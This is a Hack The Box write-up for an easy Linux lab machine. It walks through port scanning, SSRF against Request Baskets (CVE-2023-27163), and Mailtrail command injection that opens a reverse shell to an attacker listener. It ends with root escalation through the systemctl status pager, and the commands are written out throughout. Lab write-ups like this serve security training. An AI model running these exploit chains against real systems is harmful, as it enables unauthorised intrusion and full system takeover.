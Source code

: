 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.224  # Full TCP port scan
nmap -p 22,55555 -sCV 10.10.11.224      # Service/version detection on discovered ports
```

> Open ports: 22 [SSH](SSH), 55555 [(HTTP - Request Baskets service)](HTTP)

---

## 🧪 SSRF Exploitation (CVE-2023-27163)

**Tool/POC**:  
[Request Baskets SSRF GitHub PoC](https://github.com/entr0pie/CVE-2023-27163)

```bash
./cve-2023-27163.sh http://10.10.11.224:55555 http://127.0.0.1:80
```

> Uses SSRF to proxy internal services (e.g., Mailtrail on localhost)

---

## 🐚 Command Injection via Mailtrail (v0.53)

**Tool/POC**:  
[Mailtrail RCE GitHub Repo](https://github.com/sf7-sf7/Mailtrail-RCE)

```bash
nc -lvnp 443  # Listener

# Adjusted Mailtrail RCE script to target SSRF basket URL:
python mailtrail_rce.py 10.10.14.6 443 http://10.10.11.224:55555/<basket-id>
```

> Drops a reverse shell as `puma`

---

## 🧑‍💻 Shell Upgrade

```bash
script /dev/null -c bash
# Press Ctrl+Z
stty raw -echo; fg
reset
```

> Stabilizes the reverse shell

---

## 🧠 Privilege Escalation - Root via `less` + `systemctl`

```bash
sudo -l
# Shows: (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service

sudo /usr/bin/systemctl status trail.service
# If output opens in less, type: !sh
```

> Less pager exploit: gain interactive shell as root via `!sh`

---

## 📂 Flags

```bash
cat /home/puma/user.txt
cat /root/root.txt
```